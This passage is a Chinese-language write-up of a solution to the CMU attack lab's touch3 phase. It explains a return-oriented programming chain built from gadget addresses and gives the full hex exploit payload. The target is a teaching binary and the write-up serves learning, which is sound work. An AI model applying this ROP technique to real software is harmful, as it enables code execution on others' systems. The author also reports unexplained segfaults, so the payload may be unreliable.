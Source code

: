 由上题我们可以实现 `movq %rax,%rdi` ，是不是直接将传入的字符串存到栈顶，再将栈顶地址存入 `%rdi` 就做完了？这里要注意，如果直接将字符串存到栈顶， `48 89 e0 90 c3` 在返回时会跳转到栈顶，字符串就成要运行的指令了，就会发生错误。       
这里考虑将栈顶地址加值传入，使得要传入的字符串与栈顶拉开距离，不被执行。（我开始试图用官方文档给的参考指令给 `%eax` 做加法，但很复杂还不一定能成，我把它附在了最后面[1]，有闲情再看吧T_T）这里的加法用到了一个文档里没有的指令：

```
00000000004019d6 <add_xy>:
  4019d6:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:       c3                      retq
```

`04 37` 是 `add $0x37,%al` ，可以表示将传入的字符串存在距离栈顶 `0x37` （55）字节处。  
由上，可以构造这样一个攻击链：   
先填充 40 字节破坏栈，紧接着是  `movq %rsp,%rax`，将下一个栈顶位置存入 `%rax` ，代码位置是 `0x401aad`；接着 `add $0x37,%al` ，给 `%rax` 加值 `0x37` ，这段代码位置是 `0x4019d8` ；然后将 `%rax` 值传入函数的参数 `%rdi` ，代码位置由上题是 `0x4019a2` ，然后跳转到 `touch3` 函数，地址是 `0x4018fa` ；最后存入字符串，并在其前面填充字节使其地址与保存的栈顶地址相差 55 个字节，共要填充 `(55-3×8)=31` 个字节，所以答案可以是：

```
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
ad 1a 40 00 00 00 00 00
d8 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
31 31 31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31 31 31
31
35 39 62 39 39 37 66 61 00
```

## 小结

这次 lab 较简单，涉及了栈随机化，ROP 攻击等内容，通过这个 lab ，我对汇编、栈都有了更深的了解，这篇文章给了所有题目的解答，但是，这里有一个问题：使用这些解答存在出现 `Type string:Ouch!: You caused a segmentation fault!` 的可能，原因未知，此篇解答与参考资料里的解答也能对应上，所以我想出现这个问题可能是机器的原因吧？

### [1]附：一种复杂可能错误的加法

加法可以用以下方法得到：

```
00000000004019d6 <add_xy>:
  4019d6:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:       c3                      retq
```

给 `%rdi` 赋值可以从 `%eax` 传入，`%rsi` 赋值可以按以下方法：

```
  00000000004019db <getval_481>:
  4019db:       b8 5c 89 c2 90          mov    $0x90c2895c,%eax
  4019e0:       c3                      retq
```
